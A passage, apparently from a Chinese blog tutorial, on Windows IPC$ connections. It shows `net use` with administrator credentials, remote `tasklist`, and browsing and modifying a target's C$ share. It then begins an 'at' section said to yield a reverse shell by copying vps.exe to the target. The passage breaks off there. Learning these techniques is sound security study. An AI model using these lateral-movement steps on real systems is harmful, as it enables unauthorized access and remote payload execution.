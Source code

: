 --------



```
建立IPC$非空连接      
net use \\192.168.10.131  /u:"administrator"  "密码"
```




![](https://img-blog.csdnimg.cn/20200201164557378.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



IPC$非空连接可以做什么？

--------------



*   使用管理员组内用户(administrator或其他管理员组内用户均可)建立IPC$连接，可以执行以下所有命令。

*   使用普通用户建立IPC$连接，仅能执行查看时间命令： net time \\\\192.168.10.131 ，其他命令均执行不了。



### **dir命令(查看文件和目录)**



![](https://img-blog.csdnimg.cn/20200201163416481.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



也可以直接在文件管理用命令：\\\\192.168.10.131\\c$ 查看对应的文件及目录，也可以增删改查



![](https://img-blog.csdnimg.cn/20200201204720781.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### **tasklist命令(查看进程)**



```
tasklist /S 192.168.10.131 /U administrator -P 密码
```




![](https://img-blog.csdnimg.cn/20200201163340740.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### **at命令(计划命令，可反弹shell)**



*   查看目标系统时间：net time \\\\192.168.10.131

*   将本目录下的指定文件复制到目标系统中：copy  vps.exe \\\\192.168.10.131\\c$
